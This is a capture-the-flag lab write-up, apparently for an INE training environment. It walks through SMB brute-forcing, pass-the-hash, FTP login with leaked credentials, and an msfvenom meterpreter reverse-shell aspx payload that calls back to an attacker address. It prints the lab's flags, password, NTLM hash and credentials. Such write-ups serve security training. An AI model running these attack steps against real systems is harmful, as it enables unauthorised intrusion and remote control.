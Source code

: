 
---

# Lab Environment

A target machine is accessible at **target.ine.local**. Identify the services and capure the flags.

- **Flag 1:** Looks like smb user **tom** has not changed his password from a very long time.
- **Flag 2:** Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user **nancy**?
- **Flag 3:** I wonder what the hint found in the previous challenge be useful for!
- **Flag 4:** Can you compromise the target machine and retrieve the **C://flag4.txt** file?

The following wordlist will be useful:

- /usr/share/wordlists/metasploit/unix_passwords.txt

# Tools

- Metasploit
- Nmap
- smbmap
- Firefox

---
We will start with our Nmap scan and import the scan results to MSF: `nmap -Pn -A -v target.ine.local -oX nmap`

We find multiple open ports but the one that we are more insteresetd in are: FTP/21, HTTP/80, and SMB/445

Since the first flag telling us the username and the service, we will use MSF module: "smb_login" to brute-force the user tom.

We get the password:"felipe"

Now, we set the smb_pass option to '' and we set the smbpass to felipe. To get an smb session, we set the option CreateSession to true.

After we get a session, we can list the shares by: `shares` and to interact with shares: `shares -i (Share ID)`

The first flag is going to be in:"HRDocuments"

Also, we will find a list of NTLM hashes in that share, we download both files by using command download.



**First flag:** 0edeb7b848224ccb9e03f6118f2c9fdc

---
To get the second flag, we will use the same MSF module we used before but this time we will set the username to nancy and the pass_file to the NTLM hashes file we got earlier.

We get this hash that would authenticate with nancy username: "aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5"

Again, we will create a SMB session. 

Second flag is going to be in: "ITResources" share with a hint for the third flag.

We download both files.

**Second flag:** 2d3236107fb44b6cba8583fcfd8ab5ae

---

The hint.txt content reveals the credentials for "david" user with password: "omnitrix_9901"

We will try to login to smb service using these credentials, but we can't.

We will try to login using FTP: `ftp david@`10.0.24.189

We get the third flag.

**Third flag:** d34b5f6f99e742a7b671d55db82049b0

---

Since we have access to where the files of the website running on the target machine is stored, we will create a reverse shell payload using MSFVenom.

Since we know the target machine is Windows: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.43.10 LPORT=1234 -f aspx> payload.aspx`

We will upload the payload file that we created to FTP using "put command"

Now, we will use "multi/handler" MSF module and set the payload to the same payload we used with MSFVenom with the same LPORT and LHOST options.

We will go to the target URL and put next to it:"/payload.aspx"

This will activate our payload and we will get a meterpreter session on the target host.

Forth flag can found in: "C:\flag4.txt"

**Forth flag:** 82dbe39e495243c2887577d66c0b9fcc






felipe

aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad

david:omnitrix_9901

